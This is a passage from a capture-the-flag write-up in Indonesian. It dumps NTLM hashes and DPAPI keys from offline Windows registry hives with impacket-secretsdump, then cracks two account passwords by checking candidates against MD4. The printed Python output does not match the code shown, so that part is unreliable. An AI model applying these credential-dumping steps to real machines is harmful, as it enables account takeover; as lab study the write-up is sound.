

# Access Remains — SAM + SYSTEM + SECURITY → NTLM

[← Overview](24-access-remains.md) · [Index](index.md)

## 2.1 SAM + SYSTEM + SECURITY → NTLM

```bash
$ impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY local
Impacket v0.11.0

[*] Target system bootKey: 0xebb2a56259f7159e9212f18404916d75
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:649d3cf918fa4e6d37b562401cfddc8d:::
aria:1002:aad3b435b51404eeaad3b435b51404ee:250a19ea48a88bbc7532f08ecb072844:::
ariaf:1005:aad3b435b51404eeaad3b435b51404ee:f545ff727c989c387b9d1be6db74ea1c:::
...
[*] DPAPI_SYSTEM
dpapi_machinekey:0xbdfcaa5114510b901fba51f5e66fc738cb195a73
dpapi_userkey:0x04a0a4b6579654f373df1293c429b33f5c7450b9
```

NTLM adalah MD4 dari UTF-16LE password. Verifikasi kandidat:

```python
from Crypto.Hash import MD4
for user, h in {'aria':'250a19ea48a88bbc7532f08ecb072844',
                'ariaf':'f545ff727c989c387b9d1be6db74ea1c'}.items():
    for p in ['aria','ariafe006']:
        m = MD4.new(); m.update(p.encode('utf-16le'))
        print(user, p, m.hexdigest() == h)
```

Output:

```text
aria   candidate=aria         NT=250a19ea48a88bbc7532f08ecb072844  match=True
aria   candidate=ariafe006    NT=f545ff727c989c387b9d1be6db74ea1c  match=False
ariaf  candidate=aria         NT=250a19ea48a88bbc7532f08ecb072844  match=False
ariaf  candidate=ariafe006    NT=f545ff727c989c387b9d1be6db74ea1c  match=True
```

Jadi:

| User | Password |
|---|---|
| `aria` | `aria` |
| `ariaf` | `ariafe006` |

### Evidence langkah ini



*Terminal evidence — `01-secretsdump.txt` (arsip transkrip sesi solve).*

**Berkas mentah langkah ini:**

- [`01-secretsdump.txt`](assets/access-remains/01-secretsdump.txt)
